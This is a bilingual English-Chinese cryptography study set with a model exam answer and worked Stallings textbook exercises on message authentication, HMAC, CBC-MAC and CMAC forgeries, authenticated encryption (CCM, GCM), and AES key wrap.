Q5. (Authenticated encryption, key wrap and PRNG, 14 marks) (a) Name the four ways of combining encryption and authentication, one protocol using each, and the receiver's order of operations (4). (b) Compare CCM and GCM: inputs, tag construction, passes and parallelism (4). (c) A 256-bit key is wrapped with AES key wrap. Give \(n\), the stages, the ciphertext size and the role of A6A6A6A6A6A6A6A6, and say why CBC is not used for this (3). (d) What is the trade-off between a hash-based and an HMAC-based PRNG (3)?Q5.（认证加密、密钥封装与 PRNG，14 分）(a) 列出组合加密与认证的四种方式，每种各举一例协议，并给出接收方的操作顺序（4 分）。(b) 比较 CCM 与 GCM：输入、标签构造、遍数与并行性（4 分）。(c) 用 AES 密钥封装封装一把 256 位密钥。给出 \(n\)、阶段数、密文长度以及 A6A6A6A6A6A6A6A6 的作用，并说明为何不用 CBC（3 分）。(d) 基于散列与基于 HMAC 的 PRNG 之间有何权衡（3 分）？
Answer
(a) H→E (WEP): decrypt, then verify. A→E (SSL/TLS): decrypt, then verify. E→A (IPsec): verify the MAC on the ciphertext, then decrypt. E+A (SSH): decrypt, then verify.(a) H→E（WEP）：先解密，后验证。A→E（SSL/TLS）：先解密，后验证。E→A（IPsec）：先对密文验证 MAC，后解密。E+A（SSH）：先解密，后验证。
(b) Both take plaintext, associated data (authenticated only) and a nonce or IV, and use one key. CCM: a CBC-MAC chain over formatted blocks of nonce, associated data and plaintext gives the tag; CTR encrypts the plaintext and the tag; two passes, the CBC-MAC part is sequential. GCM: CTR encrypts the plaintext, GHASH (multiplication by \(H\) in \(\mathrm{GF}(2^{128})\)) over associated data, ciphertext and lengths is masked with \(E(K,J_0)\) to give the tag; one pass, fully parallel, cheap in hardware.(b) 二者都以明文、关联数据（仅认证）以及一次性随机数（nonce）或初始向量（IV）作为输入，且使用同一密钥。CCM：对随机数、关联数据和明文的格式化分组进行 CBC-MAC 链运算得到标签；CTR 加密明文和标签；需两遍，其中 CBC-MAC 部分是串行的。GCM：CTR 加密明文；对关联数据、密文和长度进行 GHASH（在 \(\mathrm{GF}(2^{128})\) 中乘以 \(H\)），经 \(E(K,J_0)\) 掩码后得到标签；一遍完成，完全可并行，硬件实现成本低。
(c) \(n=256/64=4\), \(s=24\) stages, ciphertext \(n+1=5\) blocks = 320 bits. A6A6A6A6A6A6A6A6 is the initial check value \(A(0)\); after unwrapping it must reappear, otherwise the key was altered or the KEK is wrong, so key wrap gives integrity as well as confidentiality. CBC lets the last plaintext block affect only the last ciphertext block; key wrap makes every output bit depend on every input bit, which is appropriate for the valuable key.(c) \(n=256/64=4\)，共 \(s=24\) 个阶段，密文为 \(n+1=5\) 个分组，即 320 位。A6A6A6A6A6A6A6A6 是初始校验值 \(A(0)\)；解封装后它必须重新出现，否则说明密钥被篡改或 KEK 错误，因此密钥封装同时提供完整性和机密性。CBC 中，最后一个明文分组只影响最后一个密文分组；而密钥封装使每个输出位都依赖于每个输入位，这对珍贵的密钥而言是合适的。
(d) The hash-based generator (\(w_i=H(\text{data}_i)\)) is cheaper, with no known weakness for SHA-2. The HMAC-based one runs the hash twice per output block, so it takes about twice as long, but gives a higher degree of confidence in its security.(d) 基于散列的生成器（\(w_i=H(\text{data}_i)\)）成本更低，且对 SHA-2 尚无已知弱点。基于 HMAC 的生成器每个输出块需运行两次散列，因此耗时约为两倍，但对其安全性的信心更高。
Textbook exercises课后习题
Textbook exercises with answers: 17 questions教材习题及答案，共 17 题，点击展开
E1. (Review Question 12.1, Stallings) What types of attacks are addressed by message authentication?E1.（Stallings 复习题 12.1）消息认证针对哪些类型的攻击？
Answer
Message authentication addresses four active attacks on a communication:消息认证针对通信中的四种主动攻击：
- Masquerade: messages are inserted into the network from a fraudulent source, including false acknowledgments.伪装： 消息从欺诈来源插入网络，包括虚假的确认。
- Content modification: the contents of a message are changed by insertion, deletion, transposition or modification.内容修改： 消息内容被插入、删除、置换或修改。
- Sequence modification: messages of a sequence are inserted, deleted or reordered.序列修改： 消息序列中的消息被插入、删除或重排。
- Timing modification: messages are delayed or replayed, or a whole session is replayed.时序修改： 消息被延迟或重放，或整个会话被重放。
Message authentication verifies that a message comes from the alleged source and has not been altered, and (with sequence numbers or timestamps) that its order and timing are correct. Disclosure and traffic analysis are confidentiality attacks and need encryption; repudiation by source or destination needs a digital signature.消息认证验证消息来自所称的来源且未被篡改；（借助序列号或时间戳）还能验证其顺序和时序是否正确。披露和流量分析是保密性攻击，需要加密；源端或目的端的抵赖需要数字签名。
思路：认证对付伪装、内容修改、顺序修改、时间修改（含重放）四类主动攻击。
E2. (Review Question 12.2, Stallings) In general, a MAC function is a many-to-one function. Justify this statement. State one point of difference between a MAC function and encryption.E2.（Stallings 复习题 12.2）一般来说，MAC 函数是多对一函数。请论证这一说法。并说明 MAC 函数与加密之间的一个区别。
Answer
A MAC \(T=\mathrm{MAC}(K,M)\) maps a message of arbitrary length to a tag of fixed length \(n\). The number of possible messages is far larger than the number of tags \(2^n\), so by the pigeonhole principle many messages share the same tag. For example, with 100-bit messages and a 10-bit tag, each tag is produced by \(2^{100}/2^{10}=2^{90}\) messages on average. Security rests on the fact that, without \(K\), an attacker cannot find such a message.MAC \(T=\mathrm{MAC}(K,M)\) 把任意长度的消息映射为定长标签 \(n\)。可能的消息数远多于标签数 \(2^n\)，因此根据鸽巢原理，许多消息共享同一个标签。例如，对于 100 比特的消息和 10 比特的标签，每个标签平均由 \(2^{100}/2^{10}=2^{90}\) 条消息产生。安全性依赖于这样一个事实：没有 \(K\)，攻击者就找不到这样的消息。
Difference from encryption: a MAC need not be reversible, because the receiver only recomputes and compares the tag, whereas encryption must be reversible so that the receiver can decrypt. (Also, a MAC gives authentication, not confidentiality.)与加密的区别：MAC 不需要可逆，因为接收方只需重新计算并比较标签；而加密必须可逆，以便接收方解密。（另外，MAC 提供认证，而不是保密性。）
思路：消息空间远大于标签空间所以多对一；MAC 不需要可逆，加密必须可逆。
E3. (Review Question 12.3, Stallings; 2.4, Stallings & Brown) What are some approaches to producing message authentication? List three approaches.E3.（Stallings 复习题 12.3；Stallings & Brown 2.4）产生消息认证有哪些方法？列出三种方法。
Answer
Three kinds of function can produce an authenticator, the value that lets the receiver verify the message:有三类函数可以产生认证符，即让接收方能够验证消息的值：
- Message encryption: the ciphertext of the whole message serves as its authenticator. With symmetric encryption only the key holders can have produced it, provided the receiver can recognise a legitimate plaintext (for example through added redundancy). With public-key encryption under the sender's private key it also acts as a signature.消息加密： 整个消息的密文充当其认证符。对于对称加密，只有密钥持有者才能产生它，前提是接收方能够识别合法的明文（例如通过加入冗余）。若使用发送方私钥做公钥加密，它还起到签名的作用。
- Message authentication code (MAC): a function of the message and a shared secret key that returns a fixed-length tag, appended to the message.消息认证码（MAC）： 消息和共享秘密密钥的函数，返回定长标签，附加在消息之后。
- Hash function: it maps a message to a fixed-length hash value. Because it has no key, the hash must be protected (encrypted, signed, or combined with a secret key as in HMAC).哈希函数： 它把消息映射为定长哈希值。由于没有密钥，哈希必须加以保护（加密、签名，或像 HMAC 那样与秘密密钥结合）。
思路：加密、MAC、哈希三类；哈希本身必须再被保护。
E4. (Review Question 12.4, Stallings) When sending a message to B, A can use A's private key and B's public key to achieve both secrecy and authentication. Which key is used to achieve which goal?E4.（Stallings 复习题 12.4）A 向 B 发送消息时，可以用 A 的私钥和 B 的公钥同时实现保密性和认证。哪把密钥用于哪个目标？
Answer
A sends \(E(PU_b,\,E(PR_a,M))\).A 发送 \(E(PU_b,\,E(PR_a,M))\)。
- A's private key \(PR_a\) gives authentication (and a signature): only A can produce \(E(PR_a,M)\), and anyone with \(PU_a\) can verify it.A 的私钥 \(PR_a\) 提供认证（以及签名）：只有 A 能产生 \(E(PR_a,M)\)，而任何拥有 \(PU_a\) 的人都能验证它。
- B's public key \(PU_b\) gives confidentiality: only B, who holds \(PR_b\), can remove the outer layer and read the message.B 的公钥 \(PU_b\) 提供保密性：只有持有 \(PR_b\) 的 B 才能去掉外层并读取消息。
Encrypting with \(PU_b\) alone would give secrecy only (anyone can use \(PU_b\) and claim to be A); encrypting with \(PR_a\) alone would give authentication only (anyone has \(PU_a\)). The price of both is that the public-key algorithm runs four times per exchange.只用 \(PU_b\) 加密只能提供保密性（任何人都可以使用 \(PU_b\) 并冒充 A）；只用 \(PR_a\) 加密只能提供认证（任何人都拥有 \(PU_a\)）。两者兼顾的代价是，每次交换中公钥算法要运行四次。
思路：私钥加密给认证，对方公钥加密给保密，先签后加密。
E5. (Review Question 12.5, Stallings; 2.5, Stallings & Brown) What is a message authentication code?E5.（Stallings 复习题 12.5；Stallings & Brown 2.5）什么是消息认证码？
Answer
A message authentication code (MAC, cryptographic checksum) is a short fixed-length value \(T=\mathrm{MAC}(K,M)\), computed from a variable-length message \(M\) and a secret key \(K\) shared only by sender and receiver. The sender appends \(T\) to the message; the receiver recomputes the tag from the received message and compares. A match assures the receiver that the message was not altered (an attacker without \(K\) cannot adjust \(T\)), that it comes from the other key holder, and, if the message contains a sequence number, that the order is right. A MAC does not need to be reversible. It is not a digital signature, since either key holder could have made the tag.消息认证码（MAC，密码校验和）是一个短的定长值 \(T=\mathrm{MAC}(K,M)\)，由变长消息 \(M\) 和仅由发送方与接收方共享的秘密密钥 \(K\) 计算得出。发送方把 \(T\) 附加到消息后；接收方从收到的消息重新计算标签并进行比较。匹配即向接收方保证：消息未被修改（没有 \(K\) 的攻击者无法调整 \(T\)），消息来自另一个密钥持有者；如果消息含有序列号，还保证顺序正确。MAC 不需要可逆。它不是数字签名，因为任何一个密钥持有者都可能产生了这个标签。
思路：MAC = 消息 + 共享密钥算出的固定长度标签，验证方重算比较。
E6. (Review Question 12.6, Stallings) What is the difference between a message authentication code and a one-way hash function?E6.（Stallings 复习题 12.6）消息认证码与单向哈希函数有什么区别？
Answer
| MAC | One-way hash function单向哈希函数 | |
|---|---|---|
| Key密钥 | takes a secret key as input以秘密密钥为输入 | no key没有密钥 |
| Who can compute it谁能计算 | only holders of the key只有密钥持有者 | anyone任何人 |
| What it proves能证明什么 | integrity and origin (the sender holds \(K\))完整性和来源（发送方持有 \(K\)） | nothing by itself, since anyone can recompute it本身不能证明任何东西，因为任何人都能重新计算它 |
| Use用途 | appended to the message directly直接附加在消息之后 | must itself be protected (encrypted, signed, or keyed) before it authenticates必须先加以保护（加密、签名或加入密钥）才能用于认证 |
Both map a message of any length to a short fixed-length value. A keyed hash such as HMAC turns a hash function into a MAC.两者都把任意长度的消息映射为短的定长值。像 HMAC 这样的带密钥哈希把哈希函数变成了 MAC。
思路：区别在密钥：MAC 需要密钥，哈希公开可算。
E7. (Review Question 12.7, Stallings) In what ways can a hash value be secured so as to provide message authentication?E7.（Stallings 复习题 12.7）如何保护哈希值才能提供消息认证？
Answer
Because a hash function is public, the hash value must be protected in one of these ways:由于哈希函数是公开的，哈希值必须以下列方式之一加以保护：
- Symmetric encryption of message and hash: \(E(K,[M\Vert H(M)])\), with a key shared by sender and receiver.对消息和哈希一起做对称加密： \(E(K,[M\Vert H(M)])\)，所用密钥由发送方和接收方共享。
- Symmetric encryption of the hash only: \(M\Vert E(K,H(M))\).只对哈希做对称加密： \(M\Vert E(K,H(M))\)。
- Public-key encryption of the hash with the sender's private key: \(M\Vert E(PR_a,H(M))\), which is a digital signature and gives authentication to anyone.用发送方私钥对哈希做公钥加密： \(M\Vert E(PR_a,H(M))\)，这就是数字签名，对任何人都能提供认证。
- A shared secret value \(S\) mixed in: \(M\Vert H(M\Vert S)\) (a keyed hash; HMAC is the standard form), without any encryption. For confidentiality the result can also be encrypted.混入共享的秘密值 \(S\)： \(M\Vert H(M\Vert S)\)（带密钥的哈希；HMAC 是标准形式），不做任何加密。若还需要保密性，结果也可以再加密。
The receiver recomputes the hash from the received message and compares it with the (decrypted) value.接收方从收到的消息重新计算哈希，并与（解密后的）值进行比较。
思路：用对称加密、私钥签名、或共享秘密混入哈希来保护哈希值。
E8. (Review Question 12.8, Stallings) Is it necessary to recover the secret key in order to attack a MAC algorithm?E8.（Stallings 复习题 12.8）攻击 MAC 算法是否必须恢复秘密密钥？
Answer
No. The attacker's goal is to forge, i.e. to produce a valid pair \((M',T')\) for a message that the key holder has not authenticated. This can succeed without ever learning \(K\). For example, if \(\mathrm{MAC}(K,M)=E(K,X_1\oplus\dots\oplus X_m)\) with DES in ECB mode, then any message whose blocks have the same XOR has the same tag, and the attacker forges a valid message without searching the \(2^{56}\) keys. A MAC must therefore resist forgery (finding \(M'\ne M\) with the same tag) as well as key recovery. Both brute-force key search (\(2^{k}\) for a \(k\)-bit key) and tag guessing (\(2^{n-1}\) trials on average for an \(n\)-bit tag) bound the security, and the effort is the smaller of the two, \(\min(2^k,2^n)\).不必。攻击者的目标是伪造，即为密钥持有者未认证过的消息产生一个有效的对 \((M',T')\)。这可以在从不知道 \(K\) 的情况下成功。例如，若 \(\mathrm{MAC}(K,M)=E(K,X_1\oplus\dots\oplus X_m)\) 使用 ECB 模式的 DES，那么块的异或相同的任何消息都有相同的标签，攻击者无需搜索 \(2^{56}\) 把密钥就能伪造出有效消息。因此，MAC 既要抵抗密钥恢复，也要抵抗伪造（即找到与之具有相同标签的 \(M'\ne M\)）。暴力密钥搜索（对 \(k\) 比特的密钥需 \(2^{k}\) 次）和标签猜测（对 \(n\) 比特的标签平均需 \(2^{n-1}\) 次试验）共同限定了安全性，其代价取两者中较小者，即 \(\min(2^k,2^n)\)。
思路：伪造一个有效的（消息，标签）对就算攻破，不必恢复密钥。
E9. (Review Question 12.9, Stallings) What is the advantage and disadvantage of the HMAC approach used for a pseudorandom number generator (PRNG), compared to a pure hash-based approach?E9.（Stallings 复习题 12.9）与纯哈希方法相比，用于伪随机数生成器（PRNG）的 HMAC 方法有何优缺点？
Answer
In the hash-based generator the output blocks are \(w_i=H(\text{data}_i)\) for a counter or a seed \(V\); in the HMAC-based generator they are \(w_i=\mathrm{HMAC}(K,\cdot)\) with a secret key \(K\) and a seed \(V\).在基于哈希的生成器中，输出块为 \(w_i=H(\text{data}_i)\)（针对计数器或种子 \(V\)）；在基于 HMAC 的生成器中，输出块则为 \(w_i=\mathrm{HMAC}(K,\cdot)\)，使用秘密密钥 \(K\) 和种子 \(V\)。
- Advantage: HMAC gives more confidence in security: it uses a secret key that the attacker does not know, and HMAC is proved secure if the embedded hash has reasonable strength. Seeing inputs and outputs does not reveal \(K\). For a strong hash such as SHA-2 no weakness of the pure hash-based generator is known, but the keyed version has the better-understood security.优点： HMAC 给出更强的安全保证：它使用攻击者不知道的秘密密钥，而且只要内嵌哈希的强度合理，HMAC 就可被证明是安全的。观察输入和输出并不能揭示 \(K\)。对于 SHA-2 这样的强哈希，纯基于哈希的生成器尚未发现弱点，但带密钥的版本有更好理解的安全性。
- Disadvantage: it takes about twice as long, because HMAC runs the hash twice (inner and outer) for each output block.缺点： 它大约要慢一倍，因为 HMAC 对每个输出块都要运行两次哈希（内层和外层）。
思路：HMAC 版有密钥、安全性更可证，但每块要算两次哈希，慢一倍。
E10. (Review Question 2.6, Stallings & Brown) Briefly describe the three schemes in which a hash function is used for message authentication.E10.（Stallings & Brown 复习题 2.6）简要说明三种使用哈希函数进行消息认证的方案。
Answer
In all three the sender computes \(H(M)\) and sends the message with a protected hash value.这三种方案中，发送方都计算 \(H(M)\)，并发送带有受保护哈希值的消息。
- Symmetric encryption of the digest: \(M\Vert E(K,H(M))\). If only sender and receiver share \(K\), the receiver decrypts, recomputes \(H(M)\) and compares; a match proves that the message is unaltered and comes from the key holder.对摘要做对称加密： \(M\Vert E(K,H(M))\)。若只有发送方和接收方共享 \(K\)，接收方解密后重新计算 \(H(M)\) 并比较；匹配即证明消息未被修改，且来自密钥持有者。
- Public-key encryption of the digest with the sender's private key: \(M\Vert E(PR_a,H(M))\). Anyone can verify it with \(PU_a\); this is a digital signature and also gives non-repudiation.用发送方私钥对摘要做公钥加密： \(M\Vert E(PR_a,H(M))\)。任何人都可以用 \(PU_a\) 验证它；这就是数字签名，同时提供不可否认性。
- Keyed hash (no encryption): the sender and receiver share a secret \(K\) and the sender computes \(\mathrm{MD}_M=H(K\Vert M\Vert K)\) and sends \(M\Vert \mathrm{MD}_M\). The receiver recomputes it with its copy of \(K\). Since \(K\) is not sent and cannot be recovered from the one-way hash, an attacker cannot alter the message or forge a tag. Using the secret as both prefix and suffix is stronger than using it on one side only; HMAC is the standard refined version.带密钥的哈希（不加密）： 发送方和接收方共享一个秘密 \(K\)，发送方计算 \(\mathrm{MD}_M=H(K\Vert M\Vert K)\) 并发送 \(M\Vert \mathrm{MD}_M\)。接收方用自己的 \(K\) 副本重新计算。由于 \(K\) 不被发送，且无法从单向哈希中恢复，攻击者既不能修改消息，也不能伪造标签。把秘密同时用作前缀和后缀，比只用在一侧更强；HMAC 是标准的改进形式。
思路：对称加密摘要、私钥签名摘要、带密钥的哈希三种，其中第三种不需要加密。
E11. (Review Question 21.3, Stallings & Brown) What changes in HMAC are required in order to replace one underlying hash function with another?E11.（Stallings & Brown 复习题 21.3）要用另一个哈希函数替换其底层哈希，HMAC 需要做哪些修改？
Answer
HMAC treats the hash \(H\) as a black box, so only the embedded hash module is replaced; the algorithm is unchanged:HMAC 把哈希函数 \(H\) 当作黑盒处理，因此只需替换内嵌的哈希模块；算法本身不变：
\[\mathrm{HMAC}(K,M)=H\big[(K^+\oplus\text{opad})\Vert H[(K^+\oplus\text{ipad})\Vert M]\big]\]
Only the parameters of the new hash have to be adopted: its block size \(b\) (the key is padded to \(b\) bits as \(K^+\), and ipad = 0x36 and opad = 0x5C are repeated \(b/8\) times) and its output length \(n\) (the recommended key length, and the tag length). For example, replacing SHA-256 (\(b=512\), \(n=256\)) by SHA-512 (\(b=1024\), \(n=512\)) makes the pads 128 bytes long. This easy replacement is one of the stated design objectives of HMAC, so a broken hash can be swapped for SHA-2 or SHA-3 without redesign.只需采用新哈希的参数：其分组大小 \(b\)（密钥要补齐到 \(b\) 比特，即 \(K^+\)，ipad = 0x36 和 opad = 0x5C 各重复 \(b/8\) 次），以及输出长度 \(n\)（推荐的密钥长度，也是标签长度）。例如，把 SHA-256（\(b=512\)，\(n=256\)）换成 SHA-512（\(b=1024\)，\(n=512\)），填充块就变成 128 字节。这种便捷的替换是 HMAC 既定的设计目标之一，因此可以把被攻破的哈希换成 SHA-2 或 SHA-3，而无需重新设计。
思路：只换掉内部哈希，并按新哈希的分组长度和输出长度调整填充，算法本身不变。
E12. (Review Question 21.4, Stallings & Brown) What functions do authenticated encryption systems provide?E12.（Stallings & Brown 复习题 21.4）认证加密系统提供哪些功能？
Answer
Authenticated encryption (AE) protects confidentiality and authenticity at the same time in one scheme. It provides:认证加密（AE）在同一方案中同时保护保密性和真实性。它提供：
- Confidentiality: the data is encrypted, so an eavesdropper learns nothing about it.保密性： 数据被加密，因此窃听者无法获知其内容。
- Authentication and integrity: the receiver can verify that the data comes from the holder of the key and has not been modified. This is usually done with a tag, a MAC-like value, that is checked before the plaintext is released.认证与完整性： 接收方可以验证数据来自密钥持有者且未被修改。这通常借助标签（类似 MAC 的值）完成，并在释放明文之前进行校验。
Many AE schemes (authenticated encryption with associated data) also authenticate header fields that are sent in the clear. CCM (CTR encryption plus a CBC-MAC) and GCM (CTR encryption plus a polynomial hash) are standard examples. A combined scheme is easier to use correctly than a separate cipher and MAC.许多 AE 方案（带关联数据的认证加密）还会认证以明文发送的包头字段。CCM（CTR 加密加 CBC-MAC）和 GCM（CTR 加密加多项式哈希）是标准的例子。组合方案比分别使用分组密码和 MAC 更容易正确使用。
E13. (Problem 12.1, Stallings) An error-detection function computes a frame check sequence (FCS), which can be appended to a message before encryption, \(E(K,[M\Vert F(M)])\) (internal error control), or after encryption, \(E(K,M)\Vert F(E(K,M))\) (external error control). With internal error control, authentication is provided because an opponent would have difficulty generating ciphertext that decrypts to a message with a valid FCS. Will the FCS still provide authentication if external error control is used?E13.（Stallings 习题 12.1）差错检测函数计算帧校验序列（FCS），它可以在加密之前附加到消息上（\(E(K,[M\Vert F(M)])\)，内部差错控制），也可以在加密之后附加（\(E(K,M)\Vert F(E(K,M))\)，外部差错控制）。使用内部差错控制时，认证是有的，因为对手很难生成一个解密后带有有效 FCS 的密文。如果使用外部差错控制，FCS 还能提供认证吗？
Answer
No. With external error control the FCS is computed from the ciphertext, and the function \(F\) is public and keyless. An opponent can therefore pick any ciphertext \(C\) (even random bits), compute \(F(C)\) and send \(C\Vert F(C)\). The receiver checks the FCS, finds it valid and accepts, then decrypts \(C\) to garbage that may still disrupt the system. The check proves only that the bits were not damaged by noise, not that the sender knows the key.不能。使用外部差错控制时，FCS 是对密文计算的，而所用函数 \(F\) 是公开的，且不需要密钥。因此，对手可以选择任意密文 \(C\)（甚至是随机比特），计算 \(F(C)\) 并发送 \(C\Vert F(C)\)。接收方检查 FCS，发现有效便予以接受，然后把 \(C\) 解密成乱码，而这些乱码仍可能扰乱系统。FCS 检验只能证明比特没有因噪声而受损，并不能证明发送方知道密钥。
With internal error control the FCS is inside the encryption: the opponent does not know \(K\), so he cannot produce a ciphertext that decrypts to a plaintext ending in a correct \(F(M)\), except with a probability of about \(2^{-\text{length of FCS}}\).使用内部差错控制时，FCS 位于加密之内：对手不知道 \(K\)，因此无法产生一个解密后明文以正确的 \(F(M)\) 结尾的密文，成功的概率仅约为 \(2^{-\text{length of FCS}}\)。
思路：校验码放在密文外面，谁都能算，所以起不到认证作用。
E14. (Problem 12.2, Stallings) The Data Authentication Algorithm (DAA) is DES in CBC mode with initialization vector zero. The data are split into 64-bit blocks \(D_1,\dots,D_N\) (the last padded on the right with zeros), \(O_1=E(K,D_1)\), \(O_i=E(K,[D_i\oplus O_{i-1}])\), and the MAC is \(O_N\) (or its leftmost bits). Show that the DAA cannot be trusted.E14.（Stallings 习题 12.2）数据认证算法（DAA）是以零初始向量运行 CBC 模式的 DES。数据被切成 64 比特的块 \(D_1,\dots,D_N\)（最后一块在右侧补零），\(O_1=E(K,D_1)\)，\(O_i=E(K,[D_i\oplus O_{i-1}])\)，而 MAC 为 \(O_N\)（或其最左边的若干比特）。证明 DAA 不可信。
Answer
The DAA is a CBC-MAC and is secure only if all messages have the same fixed length. For messages of different length a forgery is possible, without knowing \(K\).DAA 是 CBC-MAC，只有所有消息长度相同且固定时才是安全的。对于长度不同的消息，即使不知道 \(K\)，也可以实施伪造。
- The attacker obtains the tag \(T=\mathrm{MAC}(K,X)=E(K,X)\) of a one-block message \(X\) (one chosen-message query).攻击者获得单块消息 \(X\) 的标签 \(T=\mathrm{MAC}(K,X)=E(K,X)\)（一次选择消息查询）。
- He forms the two-block message \(X\Vert(X\oplus T)\). Then \(O_1=E(K,X)=T\) and \[O_2=E(K,[(X\oplus T)\oplus O_1])=E(K,[(X\oplus T)\oplus T])=E(K,X)=T.\]他构造两块消息 \(X\Vert(X\oplus T)\)。于是 \(O_1=E(K,X)=T\)，并且 \[O_2=E(K,[(X\oplus T)\oplus O_1])=E(K,[(X\oplus T)\oplus T])=E(K,X)=T.\]
- So the tag of the new message is also \(T\), a valid pair \((X\Vert(X\oplus T),\,T)\) that the key holder never authenticated.因此新消息的标签也是 \(T\)，于是得到一个有效的对 \((X\Vert(X\oplus T),\,T)\)，而密钥持有者从未认证过它。
(A short check with a toy 8-bit cipher confirms it.) A further weakness is the zero padding, which cannot distinguish a message from the same message followed by zero bits.（用一个玩具式 8 比特密码做的简单检验证实了这一点。）另一个弱点是零填充：它无法区分一条消息与同一消息后接零比特。
Therefore the DAA is trustworthy only for fixed-length messages, and CMAC (which uses extra keys on the last block) is used instead.因此，DAA 只有对定长消息才是可信的；应改用 CMAC（它在最后一块上使用额外的密钥）。
思路：CBC-MAC 对变长消息可以用 \(X\Vert(X\oplus T)\) 伪造，标签仍是 \(T\)。
E15. (Problem 12.4, Stallings) A variant of CMAC XORs a second key after the last encryption instead of before it: for a message whose length is a multiple of the block size \(n\), \(\mathrm{VMAC}(K,M)=\mathrm{CBC}(K,M)\oplus K_1\), where CBC is the CBC-MAC with zero IV. An adversary asks for the MACs of three messages: \(0^n\), \(1^n\) and \(1^n\Vert0^n\), and obtainsE15.（Stallings 习题 12.4）CMAC 的一个变体在最后一次加密之后而不是之前异或第二把密钥：对于长度为分组大小 \(n\) 整数倍的消息，\(\mathrm{VMAC}(K,M)=\mathrm{CBC}(K,M)\oplus K_1\)，其中 CBC 为零 IV 的 CBC-MAC。一个对手询问三条消息的 MAC：\(0^n\)、\(1^n\) 和 \(1^n\Vert0^n\)，并得到
\(T_0=\mathrm{CBC}(K,0^n)\oplus K_1\), \(T_1=\mathrm{CBC}(K,1^n)\oplus K_1\), \(T_2=\mathrm{CBC}(K,[\mathrm{CBC}(K,1^n)])\oplus K_1\).
Show that the adversary can compute the correct MAC of the unqueried message \(0^n\Vert(T_0\oplus T_1)\).证明对手能够计算未被查询过的消息 \(0^n\Vert(T_0\oplus T_1)\) 的正确 MAC。
Answer
For one block, \(\mathrm{CBC}(K,B)=E(K,B)\), and for two blocks \(\mathrm{CBC}(K,B_1\Vert B_2)=E(K,[E(K,B_1)\oplus B_2])\). Hence对于一块，\(\mathrm{CBC}(K,B)=E(K,B)\)；对于两块，\(\mathrm{CBC}(K,B_1\Vert B_2)=E(K,[E(K,B_1)\oplus B_2])\)。因此
\[T_0\oplus T_1=E(K,0^n)\oplus E(K,1^n),\]
because \(K_1\) cancels. Also \(T_2=E(K,E(K,1^n))\oplus K_1\), which is the MAC of \(1^n\Vert0^n\).因为 \(K_1\) 相互抵消。另外，\(T_2=E(K,E(K,1^n))\oplus K_1\)，即 \(1^n\Vert0^n\) 的 MAC。
Now compute the MAC of the message \(0^n\Vert(T_0\oplus T_1)\):现在计算消息 \(0^n\Vert(T_0\oplus T_1)\) 的 MAC：
\[\mathrm{VMAC}=E\big(K,\,E(K,0^n)\oplus T_0\oplus T_1\big)\oplus K_1=E\big(K,\,E(K,0^n)\oplus E(K,0^n)\oplus E(K,1^n)\big)\oplus K_1=E(K,E(K,1^n))\oplus K_1=T_2.\]
So the adversary, knowing only \(T_0,T_1,T_2\), gives the correct MAC of the new message, namely \(T_2\): a forgery with no knowledge of \(K\) or \(K_1\). The variant fails because \(K_1\) is added after the last encryption and cancels when two tags are XORed. In the real CMAC, \(K_1\) is XORed into the last plaintext block before the final encryption, so it passes through the block cipher and cannot be cancelled.因此，对手只需知道 \(T_0,T_1,T_2\)，就能给出新消息的正确 MAC，即 \(T_2\)：这是一次无需了解 \(K\) 或 \(K_1\) 的伪造。该变体失效，是因为 \(K_1\) 是在最后一次加密之后加入的，两个标签异或时会相互抵消。在真正的 CMAC 中，\(K_1\) 在最后一次加密之前异或进最后一个明文块，因而经过了分组密码，无法被抵消。
思路：\(K_1\) 在两个标签相异或时抵消，所以可以拼出一个新消息，其 MAC 恰好是 \(T_2\)。
E16. (Problem 12.6, Stallings) Four general approaches combine encryption and message authentication: H→E (hash then encrypt, \(E(K,[M\Vert H(M)])\)), A→E (MAC then encrypt, \(T=\mathrm{MAC}(K_1,M)\), send \(E(K_2,[M\Vert T])\)), E→A (encrypt then MAC, \(C=E(K_2,M)\), \(T=\mathrm{MAC}(K_1,C)\), send \((C,T)\)) and E+A (encrypt and MAC, \(C=E(K_2,M)\), \(T=\mathrm{MAC}(K_1,M)\), send \((C,T)\)).E16.（Stallings 习题 12.6）有四种通用方法结合加密与消息认证：H→E（先哈希后加密，\(E(K,[M\Vert H(M)])\)）、A→E（先 MAC 后加密，\(T=\mathrm{MAC}(K_1,M)\)，并发送 \(E(K_2,[M\Vert T])\)）、E→A（先加密后 MAC，\(C=E(K_2,M)\)，\(T=\mathrm{MAC}(K_1,C)\)，并发送 \((C,T)\)）以及 E+A（加密并计算 MAC，\(C=E(K_2,M)\)，\(T=\mathrm{MAC}(K_1,M)\)，并发送 \((C,T)\)）。
a. Which of the four performs decryption before verification? b. Which of the four performs verification before decryption?a. 四种方法中，哪一种先解密再验证？b. 哪一种先验证再解密？
Answer
The order at the receiver follows from what the authenticator is computed over.接收方的操作顺序取决于认证符是对什么计算的。
(a) Decryption before verification: H→E, A→E and E+A.(a) 先解密后验证：H→E、A→E 和 E+A。
- In H→E and A→E the hash or tag is inside the ciphertext, so the receiver must decrypt first to get \(M\) and the value, and then recompute and compare.在 H→E 和 A→E 中，哈希或标签位于密文之内，因此接收方必须先解密，得到 \(M\) 及其值，然后再重新计算并比较。
- In E+A the tag is computed over the plaintext \(M\), so the receiver must decrypt \(C\) first and then check \(\mathrm{MAC}(K_1,M)\).在 E+A 中，标签是对明文 \(M\) 计算的，因此接收方必须先解密 \(C\)，然后再检查 \(\mathrm{MAC}(K_1,M)\)。
(b) Verification before decryption: only E→A. The tag is computed over the ciphertext \(C\), so the receiver checks \(\mathrm{MAC}(K_1,C)\) first and decrypts only if it is valid.(b) 先验证后解密：只有 E→A。 标签是对密文 \(C\) 计算的，因此接收方先检查 \(\mathrm{MAC}(K_1,C)\)，只有有效时才解密。
Why it matters: E→A rejects forged or altered ciphertext before any decryption, so errors in the decryption step (for example padding errors in CBC) are not visible to an attacker. With the other three, the receiver decrypts attacker-chosen data, which enabled padding-oracle attacks on TLS (A→E). E→A is the generally preferred order (IPsec uses it).这为什么重要：E→A 在任何解密之前就拒绝伪造或篡改的密文，因此解密步骤中的错误（例如 CBC 中的填充错误）对攻击者不可见。而在其他三种方法下，接收方会解密攻击者构造的数据，这曾使针对 TLS 的填充预言攻击成为可能（A→E）。E→A 是普遍首选的顺序（IPsec 采用它）。
思路：认证码算在明文上或藏在密文里就必须先解密，只有 E→A 能先验证。
